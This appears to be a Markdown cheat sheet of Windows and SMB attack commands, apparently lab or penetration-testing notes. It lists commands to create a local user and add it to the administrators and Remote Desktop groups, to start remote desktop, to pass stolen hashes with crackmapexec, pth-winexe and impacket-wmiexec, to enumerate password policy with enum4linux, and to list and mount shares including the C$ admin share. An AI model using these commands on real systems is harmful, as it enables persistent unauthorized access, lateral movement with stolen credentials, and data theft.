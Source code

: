 #### account management

*add new user*

```net user <username> <password> /add```

*add <username> to local administrators group*

```net localgroup administrators <username> /add```

*add <username> to remote desktop users group*

```net localgroup "Remote Desktop Users" <username> /add```

*start remote desktop*

```net start TermService```

-----


#### pass the hash

```crackmapexec 10.11.0.1/24 -u <username> -H <HASH_TO_PASS>```

```pth-winexe -U DOMAIN/USERNAME%HASH //target.lab cmd.exe

```impacket-wmiexec -hashes :somehashhere someone@target.lab```

```metasploit module "auxiliary/smb_login"```

-----


#### enum4linux

*query password policy*

```enum4linux -P x.x.x.x```

*enumerate everything*

```enum4linux -a x.x.x.x```

-----


#### smbclient

*show available shares*

```smbclient -L x.x.x.x```

*interact with share*

```smbclient \\\\somewhere\\public -U <username>```

-----


#### smbmount

```mkdir /mnt/someshare```

```smbmount //winpc/shared /mnt/someshare -o username=user,password=pass,rw```

```smbmount //winpc/shared /mnt/ssomeshare -o rw  (no user + pass)```

```mount -t smbfs -o username=<username> \\\\x.x.x.x\\c$ /mnt/example```

```smbmount \\\\x.x.x.x\\c$ /mnt/example -o username=<username>```

-----




